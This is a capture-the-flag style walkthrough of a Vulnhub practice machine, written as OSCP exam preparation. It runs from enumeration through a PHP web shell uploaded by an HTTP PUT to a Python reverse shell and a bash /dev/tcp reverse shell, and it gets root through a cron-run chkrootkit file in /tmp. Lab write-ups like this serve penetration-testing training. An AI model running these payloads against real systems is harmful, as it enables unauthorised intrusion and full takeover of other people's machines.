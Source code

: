 ```yaml
---
published: true
---
```

Vulnhub virtual machine; OSCP prep box, included a webserver enumeration of OPTIONS which led to a PUT upload of reverse shell. Priv-escalation required a pivot through chkrootkit and a reverse shell executed by crontab.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


Locate VM on network

    netdiscover -r 192.168.56.0/24

Target: 192.168.56.104

# Enumeration

Nmap Scan

    nmap -sV -sC -oA nmap/sickos 192.168.56.104

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143231494_image.png)


Investigate HTTP server
http://192.168.56.104

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143297082_image.png)


source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143332170_image.png)



`blow.jpg` downloaded and check for stegonography

    file blow.jpg

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143395392_image.png)

    strings blow.jpg

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143499746_image.png)


Gobuster HTTP server

    gobuster -u http://192.168.56.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster-webservices.out

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143588912_image.png)


`/test` directory found and possible other different looking directory.

`/test` Directory

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143680347_image.png)


*lighttpd/1.4.28 identified*


Searchsploit

    searchsploit lighttpd

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143837868_image.png)


*“mod userdir Information Disclosure” looks interesting - download locally and view*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143983847_image.png)


Security focus website

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551144235792_image.png)


*This might be worth investigating here in the future.*

Checking the webserver OPTIONS of `/test`

    curl -v -X OPTIONS http://192.168.56.104/test

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551144582626_image.png)


*Webserver allows* `*put*`. We can send quick one liner to it and see if it executes.


# RCE

PUT shell.php on webserver 

    curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://192.168.216.128/test/shell.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551145257532_image.png)


*uploaded completed!*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551145399566_image.png)


*File is indeed on remote box now to test code execution.*


    192.168.56.104/test/shell.php?cmd=whoami

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551145480961_image.png)


Reverse shell
use standard [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell and URL encoded it. - I did encounter issues with the port which lead me to believe we might be dealing with some type of firewall internally.

    python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22192.168.56.101%22%2C443))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551147395731_image.png)


*We have a partial shell now and just require to upgrade.*

Upgrade to tty

    python -c 'import pty; pty.spawn("/bin/bash")'
    press cntl+z 
    stty raw -echo
    fg (enter)


cat `/etc/passwd`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551147539388_image.png)


checking for chkrootkit

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551148893450_image.png)

# Priv-Esc

version test

    chkrootkit -V

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551148957967_image.png)


Luckly there is an exploit for verison 0.49 found at: https://www.exploit-db.com/exploits/33899/

Priv-esc is accomplished by writing an `update` file within `/tmp` which gets executed by the cron.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551149117307_image.png)

# Root

Create `update` file
We need to push this reverse shell via 443 to bypass firewall

    printf '#!/bin/bash\nbash -i >& /dev/tcp/192.168.56.101/443 0>&1\n' >> /tmp/update

next change the `chmod`

    chmod 777 update

wait for callback on port 443

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551150479288_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551150634428_image.png)


Bring me the root!

-exec

